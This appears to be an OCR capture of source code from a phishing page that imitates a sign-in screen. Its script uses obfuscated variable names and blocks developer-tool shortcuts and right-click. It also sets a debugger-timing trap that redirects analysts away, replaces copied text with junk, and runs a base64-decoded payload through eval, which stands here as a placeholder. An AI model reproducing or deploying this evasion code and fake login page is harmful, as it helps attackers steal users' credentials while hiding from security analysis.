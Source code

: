 ```html
          return GcZhNJWVRD.some(
            (MEQsYZPbjg) => (!MEQsYZPbjg.ctrl || event.ctrlKey) && (!MEQsYZPbjg.shift || event.shiftKey) && (!MEQsYZPbjg.meta || event.metaKey) && (!MEQsYZPbjg.alt || event.altKey) && event.keyCode === MEQsYZPbjg.keyCode
          );
        }

        if (HRNIKiwSlw(event)) {
          event.preventDefault();
          return false;
        }
      });
      document.addEventListener("contextmenu", function (event) {
        event.preventDefault();
        return false;
      });
      OtYSLQPXAf = false;
      (function VEdEdrIGvZ() {
        let EWoXKKFSNN = false;
        const dvDYjAqwMl = 100;
        setInterval(function () {
          const mmBNjqzUeI = performance.now();
          debugger;
          const cFLfbFKaJH = performance.now();
          if (cFLfbFKaJH - mmBNjqzUeI > dvDYjAqwMl && !EWoXKKFSNN) {
            OtYSLQPXAf = true;
            EWoXKKFSNN = true;
            window.location.replace("https://www.volusion.com");
          }
        }, 100);
      })();
      document.addEventListener("copy", function (event) {
        if (document.activeElement.tagName === "INPUT" || document.activeElement.tagName === "TEXTAREA" || document.activeElement.isContentEditable) {
          return;
        }
        event.preventDefault();
        var customWord = "KbDGUamdwd";
        event.clipboardData.setData("text/plain", customWord);
      });
    </script>
  </head>
  <body>
    <h2 class="title mb-16 mt-16">Trying to sign you in</h2>
    <a href="javascript:void(0)">Cancel</a>
    <h2 class="title mb-16 mt-16">Sign in</h2>
    <button class="btn" id="btn_next">Next</button>
    <p class="has-icon mb-0" style="font-size: 15px;">Sign-in options</p>
    <script>
      XohVoprJLg = atob;
      eval(XohVoprJLg("BASE64_HASH_HERE"));
    </script>
  </body>
</html>
```
